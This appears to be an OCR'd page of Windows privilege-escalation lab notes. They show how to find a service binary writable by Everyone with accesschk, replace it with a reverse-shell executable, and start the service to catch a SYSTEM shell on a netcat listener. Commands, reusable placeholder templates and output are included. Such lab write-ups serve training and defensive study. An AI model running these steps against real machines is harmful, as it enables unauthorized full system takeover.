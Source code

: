 
- Using `accesschk.exe`, note that the service binary (`BINARY_PATH_NAME`) file is writable by everyone:


```powershell
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

# C:\PrivEsc\accesschk.exe /accepteula -quvw "<SERVICE_BINARY_PATH.exe>"


C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users # <= Confirmed
        FILE_ALL_ACCESS
```



- Copy the reverse shell executable created and replace with the service binary file:

```powershell
C:\PrivEsc>copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

# copy <REVERSE_SHELL_PATH.exe> "<SERVICE_BINARY_PATH.exe>" /Y
        1 file(s) copied.
```



- Start a listener and start the service to spawn reverse shell as SYSTEM


```powershell
net start filepermsvc # replace 'filepermsvc' with service name

#######################################################

❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.159.9 49933
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
